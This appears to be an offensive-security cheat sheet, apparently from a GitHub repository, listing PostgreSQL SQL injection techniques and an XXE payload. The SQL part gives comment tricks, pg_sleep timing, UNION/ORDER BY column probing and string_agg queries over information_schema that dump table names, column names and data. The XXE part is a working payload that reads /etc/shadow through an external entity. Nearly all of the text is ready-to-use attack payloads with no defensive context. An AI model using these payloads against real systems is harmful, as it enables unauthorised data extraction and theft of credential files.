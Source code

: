 ```
```

<span style="color:#21C587">&#35;</span><strong> PgSQL</strong><br>
```
- coments
--, /**/

- length check
length()

- version check
version()

- like
=, in()

- string to hex
ascii()

- sleep func
pg_sleep()

- add string
||, concat(), string_agg()

- Number of columns
' order by 1 --
' order by 2 --
' order by 3 --
' union null --
' union null, null --
' union null, null, null --

- limit
limit <count>
limit <count> offset <skip>

- etc
select current_database()
select string_agg(table_name, ',') from information_schema.tables
string_agg(column_name, ','), null, null, null from information_schema.columns where table_name = <table_name>
select string_agg(<column_name>), null, null, null from <table_name>
```

---
## XXE (Original)<br>
<span style="color:#21C587">&#35;</span><strong> XXE Original</strong><br>
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE burp [<!ENTITY burp SYSTEM "file:///etc/shadow"> ]>
<lfi>&burp;</lfi>
```
